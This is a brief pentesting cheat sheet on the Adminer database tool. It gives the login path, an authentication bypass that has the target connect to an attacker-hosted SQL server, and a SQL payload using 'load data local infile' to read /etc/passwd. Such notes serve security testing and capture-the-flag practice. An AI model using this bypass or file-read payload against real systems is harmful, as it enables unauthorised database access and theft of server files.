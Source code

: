 # adminer.php

## Login Page

```bash
/adminer.php
```

## Interesting Paths

```bash
/var/www/html/index.php
```

## Auth Bypass and LFI

Host own SQL server, connect via target to bypass login

[link1 ](https://infosecwriteups.com/adminer-script-results-to-pwning-server-private-bug-bounty-program-fe6d8a43fe6f)| [link2](https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool)

```bash
Check PHPinfo
open_basedir /var/www/html => can only read files in this dir.

# LFI via SQL

load data local infile "/etc/passwd"
into table admirer.pwn
fields terminated by "\n";
```

